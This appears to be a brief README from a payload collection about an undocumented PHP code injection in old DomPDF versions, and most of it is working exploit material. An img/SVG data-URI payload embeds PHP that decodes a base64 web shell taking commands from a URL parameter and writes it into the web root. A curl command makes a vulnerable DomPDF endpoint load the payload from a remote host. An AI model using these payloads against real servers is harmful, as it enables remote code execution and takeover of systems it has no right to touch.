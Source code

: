 # DomPDF PHP Code Injection
It appears that old versions (~0.6) of DomPDF has an undocumented PHP Code Injection.
Exact version could not be identified.

```
<img src="data:image/svg+xml,<svg%20xmlns='%68ttp:%2f/www.w3.org/2000/svg'%20xmlns:xlink='%68ttp:%2f/www.w3.org/1999/xlink'><image%20xlink:hr%65f='%68ttps:%2f/leaking.via/svg-via-data1'></image></svg><?php%20system('echo PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4= |base64 -d > /var/www/approot/plugins/ptCRfR0VUWydj.php');?>">
```

```
curl "http://vulnerable.com/plugins/dompdf/dompdf.php?base_path=http://raw.github.com/repo/leak.html&options[Attachment]=&input_file="
```

[See leak.html for PoC](./leak.html)
